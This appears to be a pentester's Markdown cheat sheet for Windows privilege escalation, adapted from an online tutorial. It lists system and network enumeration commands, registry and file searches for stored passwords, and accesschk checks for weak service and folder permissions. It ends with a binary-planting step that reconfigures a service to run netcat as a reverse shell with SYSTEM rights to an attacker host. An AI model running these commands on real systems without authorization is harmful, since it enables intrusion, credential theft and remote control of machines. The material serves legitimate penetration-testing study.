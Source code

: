 # windows priv escalation

* What system are we connected to? 
  * systeminfo \| findstr /B /C:"OS Name" /C:"OS Version"
* Get the hostname and username \(if available\) 
  * hostname 
  * echo %username%
* Get users 
  * net users 
  * net user \[username\]
* Networking stuff 
  * ipconfig /all
* Printer? 
  * route print
* ARP-arific 
  * arp -A
* Active network connections 
  * netstat -ano
* Firewall fun \(Win XP SP2+ only\) 
  * netsh firewall show state 
  * netsh firewall show config
* Scheduled tasks 
  * schtasks /query /fo LIST /v
* Running processes to started services 
  * tasklist /SVC 
  * net start
* Driver madness 
  * DRIVERQUERY
* WMIC fun \(Win 7/8 -- XP requires admin\) 
  * `wmic /?`
  * `#Use wmic_info script!`







WMIC: check patch level wmic qfe get Caption,Description,HotFixID,InstalledOn

Search pathces for given patch wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB.." /C:"KB.."

AlwaysInstallElevated fun reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

Other commands to run to hopefully get what we need dir /s _pass_ == _cred_ == _vnc_ == _.config_ findstr /si password _.xml_ .ini \*.txt reg query HKLM /f password /t REG\_SZ /s reg query HKCU /f password /t REG\_SZ /s

Service permissions sc query sc qc \[service\_name\]

Accesschk stuff accesschk.exe /accepteula \(always do this first!!!!!\) accesschk.exe -ucqv \[service\_name\] \(requires sysinternals accesschk!\) accesschk.exe -uwcqv "Authenticated Users" \* \(won't yield anything on Win 8\) accesschk.exe -ucqv \[service\_name\]

Find all weak folder permissions per drive. accesschk.exe -uwdqs Users c: accesschk.exe -uwdqs "Authenticated Users" c:\

Find all weak file permissions per drive. accesschk.exe -uwqs Users c:\*. _accesschk.exe -uwqs "Authenticated Users" c:\_.\*

Binary planting sc config \[service\_name\] binpath= "C:\nc.exe -nv \[RHOST\] \[RPORT\] -e C:\WINDOWS\System32\cmd.exe" sc config \[service\_name\] obj= ".\LocalSystem" password= "" sc qc \[service\_name\] \(to verify!\) net start \[service\_name\]

Mostly all of this taken from [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

